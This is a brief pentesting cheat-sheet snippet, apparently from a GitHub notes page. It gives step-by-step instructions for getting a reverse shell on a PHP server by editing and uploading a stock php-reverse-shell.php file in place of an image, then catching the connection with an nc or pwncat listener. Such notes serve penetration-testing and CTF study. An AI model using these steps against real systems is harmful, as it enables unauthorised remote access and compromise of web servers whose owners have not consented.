 ### If you have the ability to upload on a PHP server
```
1. Change the IP/Port address in /usr/share/webshells/php/php-reverse-shell.php and upload the file (even if it requests an image)
2. Start a listener on the Port with either
nc -nlvp PORT
pwncat -l PORT
3. Upload the file and navigate to where it would be presented on the site
4. Check your listener, you should have a reverse shell
```
